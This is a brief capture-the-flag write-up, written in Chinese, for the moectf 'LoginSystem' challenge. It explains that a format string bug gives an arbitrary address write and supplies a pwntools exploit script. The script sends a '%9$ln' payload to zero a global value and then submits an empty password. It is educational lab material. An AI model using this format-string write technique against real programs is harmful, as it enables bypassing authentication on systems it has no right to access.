 # moectf LoginSystem

by Maple

***格式化字符串实现任意地址写***

个人认为没什么好讲的,可以看[这里关于64位格式化字符串的介绍](../whuctf2024/wp.md)

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
p = process('./pwn')
#gdb.attach(p)
sys = 0x0000000000404050
payload = b'%9$ln'.ljust(8,b'\x00')+p64(sys)
p.sendline(payload)
p.sendafter(b'password',b'\x00'*0x8)
p.interactive()
```

